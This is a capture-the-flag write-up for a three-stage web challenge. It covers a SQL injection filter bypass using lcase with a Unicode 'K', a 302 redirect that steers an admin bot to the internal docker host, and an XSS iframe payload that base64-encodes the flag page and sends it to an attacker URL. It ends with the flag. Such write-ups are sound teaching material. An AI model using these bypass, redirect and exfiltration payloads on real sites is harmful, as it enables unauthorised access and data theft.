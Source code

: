 **Part - I:**

On looking into the source, one can find a text file, that'll reveal this is a sqli. The users are allowed to enter any query they want(there are some filters though) after select. 

`Select <your input>`.

The goal is to select "inkypinky" as id.

The intended method is to use lcase function along with unicode characters that change to ascii on to bypass the filters.

The unicode character [K](https://www.compart.com/en/unicode/U+212A) can be used here.

intended solution: `lcase('inKypinKy')id from dual`

**Part - II:**

After completing the SQLi phase, you'll be redirected to ./reception.php. On checking the source code of this, you'll be able to find a hidden text file that has the following.

```
version: '2'

services:
   web:
      # build the web server here

   node:
      # implement an A(dm)I(n) bot that would send only funny links to $(YOU_KNOW_WHO)

   db:
      #  database to be added here
```

This is a crude docker-compose.yml file. The web-server is running under the name `web`. One technique to access the internal ip of docker is use the service name. i.e, http://web will correspond to the internal ip of the web service. Since it is a docker and no specific networks have been provided http://127.0.0.1 and http://localhost won't work. 

Other than this, there are three links: 
 - ./url.php - urls for admin bot to visit
 - ./user.php - tokens/session ids to be created by admin bot
 - ./flag.php - admin bot submits token and gets flag

 To get the flag, we need to create a token. The timeout for the bot is also set to be very less(1 second). This rules out many options(the page might take some time to load if one intends to use js for CSRF) normally uses in a CTF. 

 But when we use a 302 status code, the page is redirected to its target without the page from your server fully rendering. The intended way is to access the web server using http://web by redirecting from your server.

```php
<?php
header("location:http://web/user.php?session=1111-22222-1234&sub=submit");
```

This would redirect to the bot to create a new id. 


**Part - III:**

The next part would be to exfiltrate the flag from flag.php. Even here the same method(http://web) can be used to access the server as admin. 

The flag can be exfiltrated using the XSS vulnerability present in ./flag.php. The word `script` is blocked. But any other element ought to work. 

The using `frame` and `onload` attribute, the flag can be obtained. There surely are other methods though.

`<iframe id="a" src="http://web/flag.php?session=1111-22222-1234&sub=submit" onload=window.location="<URL>?"+btoa(document.getElementById('a').contentWindow.document.body.innerText)>`

would load the flag on the page and exfiltrate to your server. Being a internal docker connection, this would load much faster(making the bot's 1 second timeout useless).

Putting it together with the redirect on your server:

```php
<?php
header("location:http://web/flag.php?session=%3Ciframe+id%3D%22a%22+src%3D%22http%3A%2F%2Fweb%2Fflag.php%3Fsession%3D1111-22222-1234%26sub%3Dsubmit%22+onload%3Dwindow.location%3D%22%3CURL%3E%3F%22%2Bbtoa%28document.getElementById%28%27a%27%29.contentWindow.document.body.innerText%29%3E%26sub%3Dsubmit");
```

## Flag:

inctf{p3op13_persons_c7f_pe0p13_9986000}
